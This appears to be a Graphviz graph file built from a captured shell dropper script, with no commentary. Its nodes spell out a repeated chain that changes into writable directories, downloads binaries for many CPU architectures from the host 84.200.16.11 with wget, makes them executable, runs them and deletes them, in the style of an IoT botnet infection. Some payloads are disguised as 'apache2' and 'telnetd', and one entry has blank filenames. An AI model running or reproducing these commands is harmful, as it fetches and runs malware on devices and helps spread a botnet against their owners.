 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://84.200.16.11/elfenliedmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x elfenliedmips "];
12 -> 14 [label=";,"];
14 [label="./elfenliedmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf elfenliedmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://84.200.16.11/elfenliedmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x elfenliedmipsel "];
30 -> 32 [label=";,"];
32 [label="./elfenliedmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf elfenliedmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://84.200.16.11/elfenliedsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x elfenliedsh4 "];
48 -> 50 [label=";,"];
50 [label="./elfenliedsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf elfenliedsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://84.200.16.11/elfenliedx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x elfenliedx86 "];
66 -> 68 [label=";,"];
68 [label="./elfenliedx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf elfenliedx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://84.200.16.11/elfenliedarmv6l "];
82 -> 84 [label=";,"];
84 [label="chmod +x elfenliedarmv6l "];
84 -> 86 [label=";,"];
86 [label="./elfenliedarmv6l "];
86 -> 88 [label=";,"];
88 [label="rm -rf elfenliedarmv6l "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://84.200.16.11/elfenliedi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x elfenliedi686 "];
102 -> 104 [label=";,"];
104 [label="./elfenliedi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf elfenliedi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://84.200.16.11/elfenliedppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x elfenliedppc "];
120 -> 122 [label=";,"];
122 [label="./elfenliedppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf elfenliedppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://84.200.16.11/elfenliedi586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x elfenliedi586 "];
138 -> 140 [label=";,"];
140 [label="./elfenliedi586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf elfenliedi586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://84.200.16.11/elfenliedm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x elfenliedm68k "];
156 -> 158 [label=";,"];
158 [label="./elfenliedm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf elfenliedm68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://84.200.16.11/elfenliedsparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x elfenliedsparc "];
174 -> 176 [label=";,"];
176 [label="./elfenliedsparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf elfenliedsparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://84.200.16.11/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://84.200.16.11/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://84.200.16.11/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
